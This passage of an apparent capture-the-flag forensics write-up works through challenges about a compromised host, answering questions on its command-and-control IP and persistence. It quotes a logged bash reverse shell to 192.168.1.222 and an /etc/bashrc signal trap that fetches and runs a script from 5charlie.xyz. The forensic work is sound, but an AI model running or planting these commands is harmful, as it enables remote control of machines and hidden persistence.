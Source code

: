 **Flag:** `/tmp/neptune.sh`

## Odyssey 6

### Odyssey 6 - Challenge

What is the IP address of the host used for initial command and control?

### Odyssey 6 - Solution

``` text
2020-04-18 06:07:34.075 UTC,"ulysses","ithaca",131,"172.17.0.3:37542",5e9a9827.83,7,"idle",2020-04-18 06:03:19 UTC,3/11,0,LOG,00000,"statement: INSERT INTO scylla(t) VALUES('bash -i >& /dev/tcp/192.168.1.222/9292 0>&1');",,,,,,,,,"psql"
```

**Flag:** `192.168.1.222`

## Odyssey 7

### Odyssey 7 - Challenge

What is the full url curled by the persistence mechanism installed on this host?

### Odyssey 7 - Solution

No hints in logs, so let's look elsewhere. I usually like `ls -latr` to sort by modification time for finding persistence, but it looks like everything was changed pretty close to the same time and/or timestomped.

I'm lazy, we know it performs curl, let's just find it.

{% highlight bash %}
grep -R 'curl' / 2>/dev/null
{% endhighlight %}

Almost immediately we receive a match on the following:

``` text
/etc/bashrc:trap 'bash <(curl -s http://5charlie.xyz/index)' 2 3
```

**Flag:** `http://5charlie.xyz/index`

## Odyssey 8

### Odyssey 8 - Challenge

The curl to 5charlie.xyz is triggered by which process signals? (format: signame,signame)

### Odyssey 8 - Solution

The `trap` command executes a command when the shell receives a signal.
You can see the signals in their numeric forms in the command above.
We just need to look up a reference to understand what they correlate to, for those of us who don't have them memorized.
<https://ss64.com/bash/trap.html>
